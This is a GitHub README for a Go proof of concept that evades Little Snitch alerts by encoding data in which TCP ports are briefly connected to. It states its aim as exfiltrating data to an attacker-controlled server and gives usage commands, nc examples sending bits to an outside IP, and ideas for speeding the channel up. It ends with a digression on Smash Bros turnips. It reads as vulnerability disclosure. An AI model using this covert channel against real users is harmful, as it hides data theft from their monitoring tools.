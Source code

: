 # little-stitch
Send and receive bypassing Little Snitch alerting.


## Stitch Face

## Demo

https://user-images.githubusercontent.com/4079939/146304055-ddcbd09f-0379-4c49-af65-cb2de9fa979e.mov

## Usage

### Build

Make sure a recent version of GoLang is installed and set up (tested with golang 1.17.2).

```
go build -o little-stitch main.go
```


### Server

Currently, this PoC does not differentiate between clients so you'll likely want a firewall setup allowing ports
11100-11300 only from the client IP address. Other clients connecting to these ports while the server running
will change the output.

```
echo 'hello from server' | ./little-stitch server
```

### Client

You'll want to start the server before the client, you may get unexpected results if you start the client first.

```
echo 'hello from client' | ./little-stitch client <server ip address>
```

## Underlying Issue

Little Snitch does not actually trigger an alert when a TCP connection is established but instead is triggered
when application data is sent across the connection. So if you set up a TCP connection and immediately close it,
before sending any data across it, an alert will not be triggered by Little Snitch.

You can test this without installing anything on your computer with the nc command.

Note: For unknown reasons Little Snitch alerting seems to be inconsistant when netcat is used like this. If you
are getting alerts with the following commands you may have more success with the PoC, which appears to be more
reliable.

```
% nc -G 2 -vz 1.1.1.1 80
Connection to 1.1.1.1 port 80 [tcp/http] succeeded!
% nc -G 2 -vz 1.1.1.1 81
nc: connectx to 1.1.1.1 port 81 (tcp) failed: Operation timed out
```

While we aren't sending any data across the connection, this behavior alone is enough to enable two-way
communications between a server and a client running behind Little Snitch without being detected.

## Implementation Details

For exfiling data to an attacker-controlled server, instead of sending data across the TCP connection as
application data we want to encode our data, into attributes of the connection which are settable by an
underprivileged user client-side, and will be readable on the same connection server-side.

There are several attributes of a TCP connection that fill these requirements, however the most
straightforward is the destination port number, and whether a connection is opened or not. If we
are trying to send a byte at a time to the server we can use a range of 8 destination ports each
representing a bit in the current byte. We can then have an initiated connection represent a one while
doing nothing represents a zero, so essentially whether a connection is opened or not in the current
cycle represents a single bit. Once we have made all the connections needed we can then send a connection
to a ninth port, indicating to the server the current cycle is complete.

We can run through this manually to get a better idea of what is happening here by just running the server-side
of the connection and using `nc` to open the connections which will set (poke) the bits on the server.

```
./little-stitch server
```

With the server running we can take a look at the bit's needed to represent an ASCII `A`.

```
$ echo -n 'A' | xxd -b
00000000: 01000001                                               A
```

From the output of `xxd` we can see, if we are counting from right to left (assuming you are using a little-endian
system) bits 1 and 7 are set. So to print an 'A' we'll want to poke ports 11101 and 11107, following up with a 11100
to flush the byte to stdout.

```
% nc -vz 34.125.141.146 11101
Connection to 34.125.141.146 port 11101 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11107
Connection to 34.125.141.146 port 11107 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11100
Connection to 34.125.141.146 port 11100 [tcp/*] succeeded!
```

If we look at the server we'll see the following.

```
$ ./little-stitch
A
```

Sending data the other direction isn't as simple since we can't send data directly from the server to the client, which will
most likely be on a network restricted with NAT. So instead of poking ports when we need to represent the value of a
given bit, we'll instead open the ports on the server corresponding to the set bits of the current byte. The client can
then iterate over these ports and record whether they were opened or closed to determine the value of the current byte.
In the demo we can see that this is slower than sending data to the server, this is because the client has more ports
overall to check (currently this is unoptimized, and closing the connection eats up a fair amount of time) and because
the server and the client need to be more careful about remaining in sync during this process.

## Transfer Speed

The transfer speed in this PoC is not terribly fast, based on observations it appears to be able to upload at about a 16 bit/s
and download at about 8 bit/s. It's worth pointing out that this PoC has not been optimized at all and is just running the
simplest thing that will work, it should be possible to increase this number by many fold. Some optimizations that might help
here is using the source port to encode data in addition to the destination port, parallelizing some off the transfer would
likely help quite a bit as well. Currently the majority of time is spent waiting on TCP connections to close, because everything
is run serialized this ends up slowing things down quite a bit. There's also likely other attributes of the connection that could
be used to store data, the urgent bit as an example (I suspect several others I'm not thinking of as well). So this is slow right
now, but I wouldn't rely on that.

## What's with the little-stitch name?

Snitch sounds like stitch, and little-stitch reminds me of Stitch Face, which is Peach's ultimate turnip in Smash Bro's Melee. Anyways, since
you seem to be so interested in Peach's turnips now, the rest of this README is about them.

Peaches turnips come in many variations and typically do 2%-10% damage when thrown. The Stitch Face Turnip is unique however, it is one of the
two rarest turnips in the game with only a 1.711% chance of appearing with each pull. What puts it appart from the other turnips isn't it's
rarety however, it's the punch it packs at 34% damage, making it the most powerfull item that is legal in turnament play.

Turnip Tip: after you throw it and it hit's your opponant try recatching it by jumping and pressing Z when the turnip bounces back and passess
through peaches body onscreen.

### Turnip Stats

| Turnip Name | Damage      | Propability |
| ----------- | ----------- |-------------|
| Normal      | 6 %         | 59.873 %    |
| Eybrow Eyes | 6 %         | 10.264 %    |
| Line Eyes   | 6 %         | 8.553 %     |
| Circle Eyes | 6 %         | 5.132 %     |
| Carrot Eyes | 6 %         | 5.132 %     |
| Wink        | 10 %        | 6.843 %     |
| Dot Eyes    | 16 %        | 1.711 %     |
| Stitch Face | 34 %        | 1.711 %     |
